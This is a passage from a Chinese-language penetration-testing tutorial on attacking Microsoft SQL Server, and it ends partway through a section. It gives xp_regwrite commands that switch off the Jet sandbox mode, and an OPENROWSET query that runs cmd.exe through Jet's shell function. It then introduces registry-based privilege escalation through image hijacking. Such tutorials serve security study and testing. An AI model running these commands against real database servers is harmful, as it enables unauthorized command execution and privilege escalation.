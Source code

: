<img src="https://s2.loli.net/2023/03/21/ojMvz7lxrpyIaX3.png" alt="image-20230321125943315" style="zoom:50%;" />

### 管理沙盒模式

这里我看别人的文章，说沙盒模式的开关都不影响命令的运行，这里由于需要安装在32位系统上，这里我就没有测试。

```mssql
关闭:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

恢复:
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',2;
```

<img src="https://s2.loli.net/2023/03/21/DyLZnCwGMHQ34xA.png" alt="image-20230321130113324" style="zoom:50%;" />

### 沙盒模式说明

```mssql
沙盒模式SandBoxMode参数含义（默认是2）
0：在任何所有者中禁止启用安全模式
1：为仅在允许范围内
2：必须在access模式下
3：完全开启

查看沙盒模式
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
```

<img src="https://s2.loli.net/2023/03/21/DxHzdZNY8rGjFpe.png" alt="image-20230321130416641" style="zoom:50%;" />

### 执行命令

这里由于需要安装32位，64位不行所以就没进行具体测试，可以看到这里报错了。

```mssql
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')
```

<img src="https://s2.loli.net/2023/03/21/nDu6I4RC8yFigvq.png" alt="image-20230321130517875" style="zoom:50%;" />

## xp_regwrite提权

通过使用xp_regwrite存储过程对注册表进行修改，替换成任意值，造成镜像劫持，当然前提条件就是未禁止注册表编辑(即写入功能)。

同时种方式如果存在杀软的话，可能会被直接拦截，大概率是由于触发到修改注册表的原因。

### 查询xp_regwrite是否启用

这里查询一下是否启动，如果启用了，那么输出的结果为1，反之则为启用。

